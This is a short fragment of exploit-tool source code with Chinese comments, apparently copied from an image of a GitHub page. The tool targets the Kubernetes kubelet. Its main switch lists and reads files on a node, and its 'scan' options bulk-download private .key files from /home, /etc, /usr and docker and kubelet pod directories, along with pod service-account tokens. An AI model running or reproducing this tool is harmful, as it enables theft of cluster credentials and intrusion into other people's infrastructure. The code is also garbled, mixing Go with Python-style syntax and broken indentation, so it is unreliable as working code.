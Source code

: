 	# 初始化变量
	initVariables()
	# 测试与 kubelet 的连接，如果连接不成功则打印消息并返回
	if !testConnectionToKubelet() {
		fmt.Print("[i] Can't connect to kubelet, ending exploit\n")
		return
	}

	# 根据 i_Command 的值进行不同的操作
	switch i_Command {
	case "lsh":
		# 调用 lsh 函数并打印返回结果
		fmt.Println(lsh(i_Option))
# 根据命令行参数执行不同的操作
case "cath":
    # 如果参数为"cath"，则执行cath函数
    fmt.Println(cath(i_Option))
case "scan":
    # 如果参数为"scan"，则根据子参数执行不同的操作
    switch i_Option:
        case "key":
            # 如果子参数为"key"，则在指定目录中创建并下载以.key结尾的文件，存放到private-keys目录中
            mkdirAndDownload("/home/", "*.key", "private-keys")
            mkdirAndDownload("/etc/", "*.key", "private-keys")
            mkdirAndDownload("/var/lib/kubelet/pods/", "*.key", "private-keys")
            mkdirAndDownload("/var/lib/docker/", "*.key", "private-keys")
            mkdirAndDownload("/usr/", "*.key", "private-keys")
            # 显示操作完成的消息
            dirMessage("private-keys")
        case "token":
            # 如果子参数为"token"，则在指定目录中创建并下载名为token的文件，存放到tokens目录中
            mkdirAndDownload("/var/lib/kubelet/pods/", "token", "tokens")
            # 显示操作完成的消息
            dirMessage("tokens")
        default:
            # 如果子参数不匹配任何情况，则显示用法说明
            usage()
    default:
        # 如果参数不匹配任何情况，则显示用法说明
        usage()
# 从根目录中分离
dettachFromRoot()